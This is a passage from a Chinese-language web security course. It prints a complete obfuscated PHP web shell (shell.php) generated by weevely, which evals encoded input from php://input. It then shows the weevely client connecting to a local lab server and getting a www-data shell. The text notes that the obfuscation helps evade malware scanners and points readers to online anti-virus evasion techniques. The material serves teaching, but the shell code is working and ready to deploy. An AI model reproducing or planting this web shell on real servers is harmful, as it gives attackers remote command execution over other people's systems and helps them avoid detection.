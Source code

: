 看下生成的 shell.php 代码，可以看到其内容都是经过混淆的，肉眼是很难直接看懂的，有助于逃过一些木马的查杀。

```
$ cat shell.php
<?php
$S='!("/$^!kh(.+^!)^!$kf/",@file^!_g^!et_content^!s("p^!hp^!://input"),$m^!)=^!=1) {@ob_star^!t^!();@ev';
$p='$^!k^!="098f6bcd";$kh="4^!62^!1d373c^!ad^!e";$kf^!="4e832627b^!4f6";$p="q^!BSPYX^!xS^!wBm8fbHZ";f^!u';
$x='=0;($^!j<$c&&$i<$^!l);$j++^!,$i^!++){$^!o.=$t{^!$i^!}^$k{^!$^!j};}}return $o;}if^! (^!@preg_match^';
$Y='^!al(^!@gzunc^!omp^!res^!s(@x(@base^!64_d^!ecode($m[^!1]),$k)));$^!o=@o^!b_get_conte^!nts()^!;@ob_e';
$k=str_replace('ha','','hacreathae_hafhaunhahaction');
$m='nc^!tio^!n x($t^!,$k^!)^!{$c=strlen($k)^!;$l=strlen(^!$t);$o=^!"";f^!^!or($i=^!0;$^!i<$l;^!){for($j';
$h='^!n^!d_clean();^!$^!r=@ba^!s^!e64^!_encode(@x(@gzcompre^!ss^!($o),^!$k));prin^!^!t("$p$kh$r$kf");}';
$E=str_replace('^!','',$p.$m.$x.$S.$Y.$h);
$o=$k('',$E);$o();
?>
```

但是工具一旦出名后，就容易被查杀，需要自己去做一些去特征化的免杀的处理，这不在本课程的讨论范围，有兴趣的话，你可以网上搜索关于木马免杀的文章。

之后 weevely.py 客户端直接连接就可以获得服务器的 shell 权限。

```
$ python3 weevely.py http://127.0.0.1:8080/shell.php test
[+] weevely 4.0.1
[+] Target:www-data@7286434c6e88:/app
[+] Session:/home/admin/.weevely/sessions/127.0.0.1/shell_1.session
[+] Shell:System shell
[+] Browse the filesystem or execute commands starts the connection
[+] to the target. Type :help for more information.
weevely> ls
a.php
assets
Dockerfile
footer.php
header.php
inc
index.php
install.php
LICENSE
pkxss
README.md
shell.php
shell.txt
test
vul
wiki
www-data@7286434c6e88:/app $ id
uid=1000(www-data) gid=50(staff) groups=50(staff)
```

